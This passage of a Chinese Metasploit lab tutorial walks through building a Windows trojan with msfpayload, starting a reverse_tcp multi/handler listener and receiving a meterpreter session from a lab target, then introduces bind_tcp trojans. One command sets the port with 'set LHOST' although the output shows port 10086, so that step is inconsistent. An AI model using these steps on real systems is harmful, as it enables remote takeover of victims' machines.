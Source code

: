 参数解释：msfpayload后面跟生成木马所选用的攻击载荷，后面在加上攻击载荷所需要的参数（上例中需要设置的是本地系统的IP与端口），“X”表示生成可执行文件，“>”号后面跟自定义的生成文件的路径与文件名。 

2、可以检查一下文件属性，看到是有效的windows可执行程序： 

```
light@kali:~# file Desktop/muma01.exe 
Desktop/muma01.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

3、在本地渗透测试系统中进入msfconsole并开启监听： 

```
use exploit/multi/handler
```

，然后指定要监听的的攻击载荷类型： 

```
set PAYLOAD windows/meterpreter/reverse_tcp
```

，最后设置好对应的参数，开启监听。 

```
msf > use exploit/multi/handler 
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.116.128
LHOST => 192.168.116.128
msf exploit(handler) > set LHOST 10086
LHOST => 10086
msf exploit(handler) > exploit 
 
[*] Started reverse handler on 192.168.116.128:10086
[*] Starting the payload handler...
```

4、在我们的windows靶机下打开刚才由msfpayload生成的木马文件。 

5、在渗透测试系统的msfconsole中看到反弹马已经成功返回meterpreter，实验成功！ 

```
msf exploit(handler) > exploit
 
[*] Started reverse handler on 192.168.116.128:10086 
[*] Starting the payload handler...
[*] Sending stage (769536 bytes) to 192.168.116.129
[*] Meterpreter session 1 opened (192.168.116.128:10086 -> 192.168.116.129:1036) at 2015-06-01 03:10:26 -0400
 
meterpreter >
```

#### 4.3 直连型木马（bind_tcp）生成实验

实验之前我们先用一张图简单展示一下反弹型与直连型木马的区别。 

[![请输入图片描述](http://wiki.wooyun.org/_media/tools:p15_1_.png)](http://wiki.wooyun.org/_detail/tools:p15_1_.png?id=tools%3Ametasploit) 
